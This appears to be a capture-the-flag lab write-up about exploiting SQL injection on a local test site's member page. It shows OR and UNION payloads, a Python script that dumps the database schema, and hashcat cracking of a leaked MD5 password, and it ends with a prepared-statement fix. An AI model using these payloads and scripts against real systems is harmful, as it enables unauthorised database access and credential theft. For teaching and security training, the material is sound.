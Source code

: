 # How

The page `/index.php?page=member` only has a basic field, but its HTML type isn't restricted.

I tried to submit `1` which returned :

```
ID: 1 
First name: one
Surname : me
```

Then I tried with `asdf` and it returned a suspicious output :

```
Unknown column 'asdf' in 'where clause'
```

This might look like any kind of error at a first glance.

But I noticed it's the exact raw output of a SQL Server.

Trying a `'` this time reveals that :

`You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '\'' at line 1`

This text gives us a hint about what would the SQL query could look like :

```sql
SELECT * FROM members WHERE id = '{input}';
```

So we could inject the following (basic) payload :

`1 OR 2`

So our query would look like this :

```sql
SELECT * FROM members WHERE id = '1 OR 2'
```

Which, you guessed it, always returns `true`. So this query basically returns all our rows in the table `members`.

This time I got the output :

```
ID: 1 OR 2 
First name: one
Surname : me

ID: 1 OR 2 
First name: two
Surname : me

ID: 1 OR 2 
First name: three
Surname : me

ID: 1 OR 2 
First name: Flag
Surname : GetThe
```

Since we do not know the SQL schema, we have to find it ourselves.

To find more informations, we can use what is called a 'Union Attack' which consists of maliciously using the `UNION` SQL keyword, which allows us to execute any arbitrary queries after.

Our payload is :

```sql
1 OR 2 UNION SELECT * FROM information_schema.tables;
```

Which will return all users, and all tables in the database. But I faced this issue :
```
The used SELECT statements have a different number of columns
```
So we have to find a way to get as much column in both queries.

We only gonna select the column `TABLE_NAME` and then pad it with as much columns we need.

In the sample above, we see that the returned ID was `1 OR 2`, which is the GET parameter in the URL, not the ID returned by the SQL query.

Knowing that we can deduce that the SQL query is :

```sql
SELECT first_name, surname FROM members WHERE ...
```

So we only need to pad one column :

```sql
1 OR 2 UNION SELECT table_name, 1 FROM information_schema.tables;
```

This returns a lot of tables, but the most interesting ones are :

```
ID: 1 OR 2 UNION SELECT table_name, 1 FROM information_schema.tables; 
First name: users
Surname : 1
ID: 1 OR 2 UNION SELECT table_name, 1 FROM information_schema.tables; 
First name: guestbook
Surname : 1
ID: 1 OR 2 UNION SELECT table_name, 1 FROM information_schema.tables; 
First name: list_images
Surname : 1
ID: 1 OR 2 UNION SELECT table_name, 1 FROM information_schema.tables; 
First name: vote_dbs
Surname : 1
```

I wrote this Python script to fetch the SQL schema of each tables :

```py
import requests
import re
from bs4 import BeautifulSoup

URL = 'http://localhost:4242/index.php?page=member&id={payload}&Submit=Submit#'
res = requests.get(URL.format(payload='1 OR 2 UNION SELECT table_name, column_name FROM information_schema.columns;'))

soup = BeautifulSoup(res.text, 'html5lib')

container = soup.find('div', {'class': 'container'})

tables = {}

TABLE_NAME_REGEX = re.compile(r'(?<=First name: )\w+(?=Surname)')
COLUMN_NAME = re.compile(r'(?<=Surname : )\w+$')

for pre in container.find_all('pre'):
    table_name = TABLE_NAME_REGEX.search(pre.text)[0]
    column_name = COLUMN_NAME.search(pre.text)[0]
    if tables.get(table_name) is None:
        tables[table_name] = []
    tables[table_name].append(column_name)

# Remove system tables (all uppercase)
for table in list(tables.keys()):
    if table.isupper():
        del tables[table]
# Remove false positive
del tables['one']
del tables['two']
del tables['three']
del tables['Flag']
del tables['db_default']

# Leak out all schemas
schemas = []
res = requests.get(URL.format(payload='1 OR 2 UNION SELECT schema_name, 1 FROM information_schema.schemata;'))
soup = BeautifulSoup(res.text, 'html5lib')
container = soup.find('div', {'class': 'container'})
for pre in container.find_all('pre'):
    schema = pre.text.split('Surname :')[0].split('First name: ')[1]
    if schema.startswith('Member'):
        schemas.append(schema)

for table, columns in tables.items():
    print(table, columns)

print(schemas)
```

This script reveals all tables along with their columns, and every schemas.

After testing a lot of queries I noticed that both `Commentaire` and `countersign` columns in the table `Member_Sql_Injection.users` contained fancy informations.

So I tried this payload :

```
/?page=member&id=1%20OR%202%20UNION%20SELECT%20countersign,Commentaire%20FROM%20Member_Sql_Injection.users;&Submit=Submit#```
```

And I got this record :

```
ID: 1 OR 2 UNION SELECT countersign,Commentaire FROM Member_Sql_Injection.users; 
First name: 5ff9d0165b4f92b14994e5c685cdce28
Surname : Decrypt this password -> then lower all the char. Sh256 on it and it's good !
```

Bruteforcing the `md5` using `hashcat` with these commands :

1. echo -n '5ff9d0165b4f92b14994e5c685cdce28' > hash.md5
2. `hashcat 5ff9d0165b4f92b14994e5c685cdce28 -O -d 2 -m 0 -a 3 -1 '?l?u?d' '?1?1?1?1?1?1?1?1'`

Returns this after few seconds :

```
5ff9d0165b4f92b14994e5c685cdce28:FortyTwo                 
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 0 (MD5)
Hash.Target......: 5ff9d0165b4f92b14994e5c685cdce28
Time.Started.....: Tue Jun 27 16:06:54 2023 (1 min, 12 secs)
Time.Estimated...: Tue Jun 27 16:08:06 2023 (0 secs)
Kernel.Feature...: Optimized Kernel
Guess.Mask.......: ?1?1?1?1?1?1?1?1 [8]
Guess.Charset....: -1 ?l?u?d, -2 Undefined, -3 Undefined, -4 Undefined 
Guess.Queue......: 1/1 (100.00%)
Speed.#2.........:   129.5 GH/s (7.94ms) @ Accel:32 Loops:1024 Thr:256 Vec:1
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 9501759504384/218340105584896 (4.35%)
Rejected.........: 0/9501759504384 (0.00%)
Restore.Point....: 39845888/916132832 (4.35%)
Restore.Sub.#2...: Salt:0 Amplifier:4096-5120 Iteration:0-1024
Candidate.Engine.: Device Generator
Candidates.#2....: busNggRA -> BYAs5uKI
Hardware.Mon.#2..: Temp: 77c Fan: 61% Util: 99% Core:2715MHz Mem:10251MHz Bus:16
```

So, to get the flag we lowecase it :

* echo -n "FortyTwo" | tr '[:upper:]' '[:lower:]' | sha256sum

And we get the flag : `10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5`


# Fix

- Sanitize user's input by escaping each special characters
- Use prepared statements. Example in PHP:

```
$id = $_GET["id"];

$pdo = new PDO(
    dsn: "mysql:host=localhost;dbname=list_images;charset=utf-8;port=3306",
    username: "username",
    password: "password",
);
$stmt = $pdo->prepare("SELECT * FROM members WHERE id = ?");
$stmt->execute([$id]);
```
